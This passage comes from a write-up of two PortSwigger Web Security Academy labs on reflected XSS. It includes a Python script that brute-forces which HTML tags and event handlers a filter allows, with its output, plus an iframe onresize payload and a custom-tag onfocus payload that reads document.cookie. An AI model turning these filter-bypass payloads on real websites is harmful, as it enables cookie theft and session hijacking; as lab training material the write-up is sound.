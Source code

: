 ```python
		r = s.get(url, params=params)
		if r.status_code == 200:
			print(f"[+] Allowed tag: {tags}")

### OUTPUT
$ python3 brutexss.py
[+] Allowed tag: body
[+] Allowed tag: custom tags
```

The above would brute force all the possible tags, and afterwards, I need to find the events.

I replaced the loop with the following:

```python
with open('all_events','r') as f:
	for events in f:
		params = {
			'search':f'<body {events}=1>'
		}
		r = s.get(url, params=params)
		if r.status_code == 200:
			print(f"[+] Allowed events: {events}")

### OUTPUT
$ python3 brutexss.py 
[+] Allowed events: onbeforeinput
[+] Allowed events: onbeforetoggle
[+] Allowed events: onratechange
[+] Allowed events: onresize
[+] Allowed events: onscrollend
```

Out of all the events, only `onresize` had a payload that required no user interaction.

Using the exploit server, I have to construct an `iframe` to load the page, and then load the payload. Afterwards, the window has to be resized to trigger the payload.

`<iframe src="https://0acb009003e73d8d83dc196500640085.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100%';></iframe>
` works.

## Lab 14: Reflected XSS with all blocked except custom tags

Same as above, just that I have to create a custom tag. Looking at Hacktricks, it shows me the solution for the lab:

```js
<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

This payload uses a custom tag, and in theory it can be anything since all XSS requires is the event to execute scripts.
